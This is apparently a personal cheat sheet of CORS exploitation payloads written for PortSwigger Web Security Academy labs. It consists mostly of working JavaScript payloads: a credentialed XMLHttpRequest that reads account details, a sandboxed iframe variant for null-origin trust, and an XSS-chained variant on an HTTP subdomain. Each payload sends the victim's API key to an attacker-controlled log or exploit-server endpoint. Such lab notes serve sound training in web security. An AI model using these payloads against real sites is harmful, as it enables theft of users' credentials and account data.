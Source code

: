 ## Cross-origin resource sharing

CORS works, if:
**Access-Control-Allow-Credentials: true** header suggesting that it may support CORS.
**Origin: https://example.com** is reflected in the Access-Control-Allow-Origin header in response.

## Standard payload:
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;     //retrieve the administrator's API key
    };
</script>
```

## CORS vulnerability with trusted null origin (set before Origin: null) :
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
## CORS vulnerability with trusted insecure protocols:

Origin: http://subdomain.lab-id

Open a product page, click Check stock and observe that it is loaded using a HTTP URL on a subdomain.
Observe that the productID parameter is vulnerable to XSS.

```
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

https://portswigger.net/web-security/cors/lab-breaking-https-attack
